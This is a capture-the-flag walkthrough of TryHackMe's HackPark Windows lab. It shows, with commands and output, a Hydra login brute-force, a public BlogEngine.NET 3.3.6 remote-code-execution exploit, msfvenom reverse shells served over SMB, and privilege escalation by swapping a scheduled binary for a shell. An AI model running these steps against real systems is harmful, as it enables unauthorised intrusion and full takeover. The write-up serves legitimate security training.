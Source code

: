 ```yaml
---
layout: default
title: "HackPark"
description: "Bruteforce a login with Hydra, use a public exploit, and hijack the binary to escalate privileges on the Windows machine."
---
```


[HackPark](https://tryhackme.com/room/hackpark) is the third machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

Nmap scan:
```
nmap -sC -sV -o nmap.txt 10.10.37.35
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 09:09 EDT
Nmap scan report for 10.10.37.35
Host is up (0.092s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-15T13:10:03+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.37 seconds
```
By navigating to the website is running on port `80` we can discover a login page located here:
```
http://10.10.37.35/Account/login.aspx?ReturnURL=/admin/
```

---

## Exploitation

All manual attempts to guess the password failed, let's try some good old brute force.

As we are trying to get access to the webserver, I normally would go for `Burp Suite` and it's built-in `Intruder` (Ctrl+I) or [TurboIntruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).  
However, `Hydra` is a powerful Swiss Army knife in your arsenal, so let's have a look at `Hydra`'s syntax for instance.
First, capture the login attempt with `Burp Suite`, for example.
Second, specify a wordlist and the protocol, use `^USER^`, and `^PASS^` where it's needed, and don't forget to use the `:` as a separator.

For this web server we will need something like that:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt  10.10.37.35  http-post-form "/Account/login.aspx:__VIEWSTATE=f1XkCZ4kIN%2Bq%2B9IFJ%2FbMKkO52zKy84bKCcjkkfUsR4x3x%2F5fEkxpzV%2FRKXCMJuCsCKWpsKyzQK4aARoel4q7itZn9osOnSwWsHTgXeEJhgeFpWIv7IOa717%2Fse9rAljZe9dyFtPdvl7uTYZzRGKtW8hqV%2F1Np0H5BAVotuzLmN3%2FCbDw&__EVENTVALIDATION=GtojKnDeo2jldhCXNJBmvWGBP6cDL8kpk8%2F34UpQahQt23y3jWrXbS41IEutWfw6i15bxNkkkxKzaIjD0gWVqUh0PHxU7p4EuDWXsz4V8iZPoUpU7L9gxEwweFHlQmLSfuhVzsF4B0wIJNMDaqdpnX9H469MYRbw1gbwrHAzrtaH0B%2FV&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

[80][http-post-form] host: 10.10.37.35   login: admin   password: ********
```
Pay attention to the `:Login failed` at the end of the command. This is the response from the webserver on an attempt to sign in with incorrect credentials. It will be different on other boxes.

Now we have access to the `Admin` section of the site. By navigating to the `About` page, we can learn that version of the engine is `3.3.6.0`.
Check available exploits:
```
searchsploit BlogEngine.NET 3.3.6
```

 Exploit Title | Path
 --- | ---
 BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
 BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code | aspx/webapps/47010.py
 BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal | aspx/webapps/47035.py
 BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution | aspx/webapps/47011.py
 BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection | aspx/webapps/47014.py



Our goal is to get the shell, so let's try `RCE` first:
```
searchsploit -m aspx/webapps/46353.cs
```
Move mentioned in the exploit part of the script to the file `PostView.ascx`.
Navigate to the edit page and upload the file via the `File manager` option:
```
http://10.10.37.35/admin/app/editor/editpost.cshtml
```
Open a session of `nc` listener on mentioned in the exploit port.
To trigger the shell you should navigate to `?theme=../../App_Data/files`
```
10.10.37.35/?theme=../../App_Data/files
```
Catch your shell:
```
sudo nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.11.19.53] from (UNKNOWN) [10.10.37.35] 49274
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

This shell is not so stable, so let's generate another one:
```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.11.19.53 LPORT=53 -f exe -o shell.exe
```
Let's use [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) this time to upload the shell.
Navigate to the folder which you would like to share via `SMB` and type the following:
```
smbserver.py carrotcake .
```
On the client:
```
cd C:\Windows\Temp
copy \\10.11.19.53\carrotcake\shell.exe

C:\Windows\Temp>copy \\10.11.19.53\carrotcake\shell.exe
        1 file(s) copied.
```
Open the `nc` listener on port `53` and run the shell:
```
C:\Windows\Temp>shell.exe
```

---

## PrivEsc

And again, no `Metasploit` this time.

Grab a `x86` version of `winPEAS` from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/x86/Release).
Upload it to the client the same way as you just did with the shell.

`WinPEAS` will highlight the uncommon binary:
```
WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running  
```
Navigate to the `C:\Program Files (x86)\SystemScheduler\Events` to check logs.  
It seems that `Message.exe` is constantly restarting by `Administrator`:
```
10/15/20 11:52:06,Process Ended. PID:1528,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:53:05,Event Started Ok, (Administrator)
10/15/20 11:53:07,Process Ended. PID:1656,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:54:06,Event Started Ok, (Administrator)
10/15/20 11:54:07,Process Ended. PID:1804,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:55:06,Event Started Ok, (Administrator)
10/15/20 11:55:07,Process Ended. PID:32,ExitCode:956628994,Message.exe (Administrator)
10/15/20 11:56:06,Event Started Ok, (Administrator)
10/15/20 11:56:07,Process Ended. PID:1440,ExitCode:956628994,Message.exe (Administrator)
```

Let's try to replace the `Message.exe` by a reverse shell:

```
C:\Program Files (x86)\SystemScheduler>ren Message.exe Message.exe.old
C:\Program Files (x86)\SystemScheduler>copy \\10.11.19.53\carrotcake\shell.exe
        1 file(s) copied.
C:\Program Files (x86)\SystemScheduler>ren shell.exe Message.exe
```

Open another session of `nc` and wait about 30 seconds.
Hooray, you got the `Administrator` shell.

---

## Takeaway
- Always pay attention to the logs if you're stuck
- Nothing is wrong with `Metasploit`. Just make sure that you understand how the exploits that you're using works under the cape.
- Some exploits (especially if you are exploiting CRON jobs) will test your patience
